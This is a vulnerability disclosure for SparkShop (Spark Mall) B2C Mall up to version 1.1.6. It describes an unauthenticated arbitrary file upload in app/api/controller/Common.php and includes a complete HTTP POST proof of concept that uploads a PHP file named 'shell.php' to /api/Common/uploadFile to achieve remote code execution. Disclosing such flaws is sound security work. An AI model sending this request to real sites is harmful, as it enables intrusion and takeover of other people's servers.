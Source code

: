 ### BUG_Author:

Rui Jie

### Affected version:

<=1.1.6

### Vendor:

Nanjing Xingyuantu Technology Co. 

SparkShop(Spark Mall) B2C Mall https://www.sparkshop.cn/
### Software:

https://gitee.com/sparkshop/sparkshop


https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php
### Description:
 A vulnerability categorised as critical has been discovered in SparkShop (Spark Mall) B2C Mall. This affects sections of the unauthorised interface file app/api/controller/Common.php. Manipulation of the parameter file results in arbitrary file uploads



![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.


POC
```
POST /api/Common/uploadFile HTTP/1.1
Host: 127.0.0.5
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 166
Content-Type: multipart/form-data; boundary=5f0c1dda2c37ae232c96415ad53dc96b

--5f0c1dda2c37ae232c96415ad53dc96b

Content-Disposition: form-data; name="file"; filename="shell.php"

<?=phpinfo();?>

--5f0c1dda2c37ae232c96415ad53dc96b--
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121552216.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121557807.png)


We achieved RCE by uploading a malicious php script

